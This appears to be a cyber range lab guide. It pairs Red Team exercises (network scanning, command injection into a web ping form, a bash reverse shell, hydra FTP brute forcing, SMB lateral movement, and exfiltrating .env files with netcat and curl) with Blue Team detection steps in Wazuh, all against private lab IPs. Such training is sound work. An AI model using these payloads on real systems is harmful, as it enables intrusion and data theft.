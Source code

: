 🔴 Attack Scenarios Guide
This document provides step-by-step exercises to practice both offensive (Red Team) and defensive (Blue Team) techniques in the cyber range lab.

Table of Contents
Scenario 1: External Reconnaissance

Scenario 2: Web Application Attack

Scenario 3: Brute Force Attack

Scenario 4: Lateral Movement

Scenario 5: Data Exfiltration

Defensive Monitoring & Response

Scenario 1: External Reconnaissance
Objective: Perform initial discovery and enumeration of the lab network without triggering excessive alerts.
Attacker VM: Kali Linux (192.168.56.200)
Target: Entire network range (192.168.56.0/24)

Steps:
Host Discovery: Identify active hosts on the network.

sudo netdiscover -r 192.168.56.0/24
# OR
nmap -sn 192.168.56.0/24

Note the IPs of DC01, WEB01, and CLIENT01.

Port Scanning: Perform a SYN scan on a specific target (WEB01).

nmap -sS -T4 192.168.56.20

You should discover ports 21 (FTP), 80 (HTTP), and 445 (SMB).

Service Enumeration: Interrogate the discovered ports to identify versions.

nmap -sV -sC -p21,80,445 -oA web01_scan 192.168.56.20


✅ Success: You have mapped the attack surface of the web server.

Scenario 2: Web Application Attack
Objective: Exploit a command injection vulnerability on the WEB01 server.
Target: Ubuntu WEB01 (192.168.56.20)

Steps:
Browse to the vulnerable page: From your Kali machine, open Firefox and go to http://192.168.56.20/vulnerable.php.

Test Command Injection: In the "Enter a host to ping" field, try injecting a command:

google.com; whoami

The page should output the result of the whoami command (e.g., www-data), proving the vulnerability.

Gain a Reverse Shell:

On your Kali attacker machine, set up a netcat listener:

nc -nvlp 4444

In the web form, inject a reverse shell command. Replace [KALI-IP] with 192.168.56.200:

google.com; bash -c 'bash -i >& /dev/tcp/192.168.56.200/4444 0>&1'

Check your netcat listener. You should now have a command shell on WEB01.

✅ Success: You have achieved initial compromise and have a foothold on the network.

Scenario 3: Brute Force Attack
Objective: Gain access to the FTP service on WEB01 using a weak password.
Target: FTP service on WEB01 (192.168.56.20:21)

Steps:
Launch a brute force attack using hydra and the provided wordlist.

hydra -l developer -P /usr/share/wordlists/rockyou.txt ftp://192.168.56.20
The password is password123, so it should be found very quickly.

Login with compromised credentials:

ftp 192.168.56.20
Username: developer
Password: password123

✅ Success: You have demonstrated access via weak credentials.

Scenario 4: Lateral Movement
Objective: Move from the compromised WEB01 server to the CLIENT01 workstation.
Prerequisite: You must have a shell on WEB01 from Scenario 2.

Steps:
Discover Network Services: From your WEB01 shell, see what other machines are alive.

# Linux command from the WEB01 shell
ping -c 1 192.168.56.101


Scan for SMB Shares: Use Kali's tools to scan CLIENT01 for accessible file shares.

# Run this from your KALI machine, targeting CLIENT01
nmap -p 445 --script smb-enum-shares 192.168.56.101

Attempt to Access a Share:

# Try to connect to the default C$ share
smbclient //192.168.56.101/C$ -U COMPANY/Administrator


You will be prompted for a password. This may fail, but the attempt will generate logs.

✅ Success: You have attempted to move laterally, generating detectable event logs.

Scenario 5: Data Exfiltration
Objective: Locate and exfiltrate a fake "secret" file from WEB01.
Prerequisite: Shell on WEB01.

Steps:
Search for interesting files:

# From your WEB01 shell
find / -name "*.txt" -type f 2>/dev/null
find / -name ".env" -type f 2>/dev/null

Exfiltrate the file: You found /var/www/html/.env and /var/backups/passwd.backup.

Method 1: Use netcat. On Kali: nc -nvlp 8080 > stolen_file.env. On WEB01: nc 192.168.56.200 8080 < /var/www/html/.env.

Method 2: Use a simple web server. On Kali: sudo python3 -m http.server 80. On WEB01: curl 192.168.56.200/.env -o /tmp/.env.

✅ Success: You have identified and extracted sensitive data.

🔵 Defensive Monitoring & Response
For each attack scenario above, switch to the Wazuh dashboard on DC01 (https://192.168.56.15) and practice these defensive actions:

For Scenario 1 (Reconnaissance):
Where to Look: Security Events → Filter by Agent: web01 → Search for rule IDs 100100 (ICMP) or 1002 (port scan).

Response: Create a custom rule to alert on any scan from the Kali IP (192.168.56.200).

For Scenario 2 (Web Attack):
Where to Look: Security Events → Filter by Agent: web01 → Search for vulnerable.php or rule 31107 (Apache error).

Response: The command injection should trigger a alert. Block the attacker's IP at the web application level or network firewall.

For Scenario 3 (Brute Force):
Where to Look: Security Events → Filter by Agent: web01 → Search for ftp and authentication failure.

Response: The Wazuh rule 1002 (multiple authentication failures) should trigger. The response would be to block the source IP and disable the compromised developer account.

For Scenario 4 (Lateral Movement):
Where to Look: Security Events → Filter by Agent: client01 → Search for smb or EventID: 4625 (failed logon).

Response: An alert for multiple SMB login failures from WEB01's IP would indicate lateral movement attempts. Isolate the compromised WEB01 server for forensic analysis.

For Scenario 5 (Data Exfiltration):
Where to Look: Security Events → Filter by Agent: web01 → Search for .env or passwd.backup.

Response: File Integrity Monitoring (FIM) should alert on the access or modification of the sensitive .env file. This requires immediate investigation.

Remember to revert snapshots after each scenario to reset the lab environment!